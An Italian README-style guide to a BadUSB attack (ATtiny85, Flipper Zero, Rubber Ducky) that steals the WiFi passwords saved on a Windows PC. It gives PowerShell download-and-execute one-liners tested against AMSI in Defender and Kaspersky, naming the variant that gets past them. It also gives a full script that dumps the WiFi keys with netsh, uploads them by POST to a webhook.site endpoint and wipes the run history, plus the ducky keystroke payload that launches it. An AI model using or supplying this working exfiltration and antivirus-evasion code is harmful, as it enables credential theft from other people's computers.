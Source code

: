 ## Esfiltrazione delle chiavi wifi salvate in un computer e incidenti di percorso.

Visto che avevo un Attiny85 mi sono messo a giocare con badusb e sono ben presto caduto nelle grinfie del malefico AMSI (Antimalware Scan Interface), ho pensato quindi di scrivere due righe in base alla mia esperienza in merito
(*caveat emptor, non sono uno sviluppatore per cui non escludo errori in caso segnalatemelo*).

Gli stessi principi sono applicabili a Flipper Zero, USB Rubber ducky etc etc.

Quando un utente avvia uno script o inizializza un processo PowerShell (o PowerShell_ISE), viene caricata automaticamente la libreria AMSI.DLL che fornisce l’API necessaria per l’interazione con il software antivirus installato e predefinito. 
AMSI.DLL invia lo script o il comando all'antivirus prima dell’esecuzione, utilizzando una chiamata RPC; l'antivirus quindi analizza le informazioni ricevute e invia una risposta: se viene rilevata una firma nota, l’esecuzione viene interrotta e viene visualizzato un messaggio che indica che lo script è bloccato dal programma antivirus.

La funzionalità AMSI è integrata in questi componenti di Windows: 
- Controllo dell’account utente (elevazione di EXE, COM, MSI o installazione di ActiveX), 
- PowerShell (script, uso interattivo e valutazione dinamica del codice), 
- host script Windows (wscript.exe e cscript.exe), 
- JavaScript e VBScript, 
- Office macro VBA...

Ora, immaginiamo di voler eseguire uno script powershell remoto, caricato ad esempio su pastebin (un classico rickroll in questo caso).

Dai test che ho fatto:

```console
powershell -w h -NoP -NonI -ep Bypass -c iwr https://pastebin.com/raw/VGmUcTn6 | iex 
```

non funziona ma viene intercettato

```console
powershell -w h -NoP -NonI -ep Bypass -c iex ((iwr https://pastebin.com/raw/VGmUcTn6).content) 
```
non funziona ma viene intercettato

```console
powershell -w h -NoP -NonI -ep Bypass -c "iex (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/VGmUcTn6')"
```
**FUNZIONA!**

Testati:
- Microsoft Defender
- Kaspersky free
- more to come

Per maggiori dettagli fate riferimento a questo eccellente post:
https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/

Dalla KB di Kaspersky
https://support.kaspersky.com/KESWin/11.9.0/en-US/173854.htm

Soluzioni che interagiscono con AMSI:
https://github.com/subat0mik/whoamsi


Risolte le premessse, passiamo alla parte divertente, ovvero come estrarre le chiavi di autenticazione delle reti wifi salvate nel pc, tramite badusb.
Prima di tutto serve uno script powershell per estrarle:

```console
#credits to https://jocha.se/blog/tech/display-all-saved-wifi-passwords
#Extract WiFi network name and password, valid for Italian language systems, otherwise change that "Contenuto chiave"
netsh wlan show profiles | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Contenuto chiave\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} |  Format-Table -autosize | Out-File "$env:temp\Output.txt"

#Upload to webhook selected site (replace with your own)
iwr -Uri https://webhook.site/xxxxxxx-xxxxxxxxxx-xxxxxx -Method POST -infile "$env:temp\Output.txt"

#Cleanup of downloaded file and recent run history
rm "$env:temp\Output.txt"
cd HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\
rm .\RunMRU
```

Lo script powershell va modificato come desiderato (nell'output), salvato e caricato come file.ps1 nel vostro hosting preferito o messo su pastebin, se preferite.

Lo script badusb da eseguire per richiamare il powershell che ho usato è banale (occhio se usate pastebin a copiare il link al raw o ovviamente non andrà nulla:

```console
DEFAULTDELAY 200
DELAY 1000
GUI R
STRING powershell -w h -NoP -NonI -ep Bypass -c "iex(New-Object Net.WebClient).DownloadString('https://url_dello_script_o_link_al_raw_su_pastebin')"
ENTER
```

Viene lanciato Win+R, scritto il comando nella casella esegui (in maniera visibile) e c'è una finestra di powershell che compare, 
**quindi non è pensato per essere stealth**, ma siccome il nostro scopo non è illegale, la cosa non ci interessa vero?

Per lo sketch da caricare sull'attiny85 usate il geniale servizio di spacehun, [duckify.huhn.me](https://duckify.huhn.me), lasciategli una donazione se lo usate, se lo merita.

Io ho solo aggiunto una riga giusto alla fine:

```console
digitalWrite(1, HIGH);  // Turn the LED On
```
per accendere il led rosso quando ha finito.

Testato su Windows 10 e 11 in Italiano.

Have fun.
